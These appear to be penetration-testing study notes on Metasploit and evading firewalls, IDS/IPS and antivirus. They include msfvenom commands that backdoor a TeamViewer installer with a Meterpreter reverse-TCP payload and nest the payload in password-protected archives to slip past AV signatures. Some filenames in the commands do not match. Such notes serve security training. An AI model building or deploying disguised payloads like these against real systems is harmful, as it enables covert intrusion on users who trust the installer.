   ```shell
  set LPORT 1337

  run
  # trigger payload to get reverse shell
  # we can use local_exploit_suggester
  ```

## Firewall and IDS/IPS Evasion

* Endpoint protection - any local device/service with sole purpose of protecting single host on network; usually comes in form of software packs for AV.

* Perimeter protection - physical/virtual devices on network perimeter edge; provides network access from public (outside) to private (inside).

* Security policies - similar to ACLs; allow/deny statements for network traffic.

* Multiple methods can be used to match an event with a security policy entry, such as signature-based detection, heuristic detection, stateful protocol analysis detection, and live-monitoring & alerting (SOC-based).

* Evasion techniques:

  * Simply encoding payloads using different schemes with iterations is not enough

  * Network-based IDS/IPS can be taken care of as ```msfconsole``` can tunnel AES-encrypted communication

  * We can use executable templates to obfuscate our payload, creating a backdoored executable:

    ```shell
    msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
    ```
  
  * Archives can be used as well to attempt to bypass AV signatures:

    ```shell
    msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5

    # we can use the rar utility for archiving
    wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz

    tar -xzvf rarlinux-64-612.tar.gz && cd rar

    rar a ~/test.rar -p ~/rest.js

    # remove rar extension
    mv test.rar test

    # archive payload again
    rar a test2.tar -p test

    mv test2.rar test2
    # final payload
    ```
  
  * Packers can be used as well - payload is packed together with an executable program and decompression code in a single file
